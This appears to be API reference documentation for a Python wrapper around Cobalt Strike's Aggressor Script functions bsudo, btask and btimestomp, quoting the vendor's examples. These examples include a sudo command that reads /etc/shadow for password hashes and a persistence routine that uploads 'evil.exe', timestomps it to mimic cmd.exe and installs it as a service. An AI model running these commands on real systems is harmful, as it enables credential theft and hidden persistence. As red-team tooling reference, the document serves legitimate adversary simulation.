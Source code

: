 
## bsudo
```python
bsudo(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to run a command via sudo (SSH sessions only)
    Arguments
    $1 - the id for the session. This may be an array or a single ID.
    $2 - the password for the current user
    $3 - the command and arguments to run
    Example
    # hashdump [password]
    ssh_alias hashdump {
        bsudo($1, $2, "cat /etc/shadow");
    }


## btask
```python
btask(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Report a task acknowledgement for a Beacon. This task acknowledgement will also contribute to the narrative in Cobalt Strike's Activity Report and Sessions Report.
    Arguments
    $1 - the id for the beacon to post to
    $2 - the text to post
    $3 - a string with MITRE ATT&CK Tactic IDs. Use a comma and a space to specify multiple IDs in one string.
    https://attack.mitre.org
    Example
    alias foo {
        btask($1, "User tasked beacon to foo", "T1015");
    }


## btimestomp
```python
btimestomp(*args, silent=False, fork=None, sync=True)
```
"
Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to change the file modified/accessed/created times to match another file.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the file to update timestamp values for
    $3 - the file to grab timestamp values from
    Example
    alias persist {
        bcd($1, "c:\\windows\\system32");
        bupload($1, script_resource("evil.exe"));
        btimestomp($1, "evil.exe", "cmd.exe");
        bshell($1, 'sc create evil binpath= "c:\\windows\\system32\\evil.exe"');
        bshell($1, 'sc start netsrv');
    }
